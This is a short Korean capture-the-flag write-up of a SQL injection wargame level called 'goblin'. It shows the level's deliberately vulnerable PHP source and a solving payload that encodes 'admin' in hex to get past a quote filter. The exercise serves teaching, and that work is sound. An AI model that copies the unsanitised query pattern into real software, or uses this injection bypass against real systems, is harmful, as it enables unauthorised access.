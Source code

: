 # goblin

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- GET 방식으로 no를 받는다.
- ' " \` 필터링 한다.
- 쿼리를 보면, id가 'guest'로 고정되어있다.
- 결과적으로 받아온 id가 'admin'이어야 한다.

## 3. Solution
변수명 | 값
---|---:
`no` | 1234 or id = 0x61646d696e


드디어 따옴표를 필터링 한다.<br>
&rarr; 'admin'과 같은 문자열 전달은 hex값으로 우회하면 된다.


해당 값을 보내면, query 속 조건은 다음과 같다.


**select id from prob_goblin where id='guest' and no=1234 or id = 0x61646d696e**


'guest'의 `no`를 모르기에, 아닌거 같은 값`1234`를 넣어준다.<br>
이후, 참이될 조건을 위해 id='admin'을 보내준다. 우회방법은 위와 같다.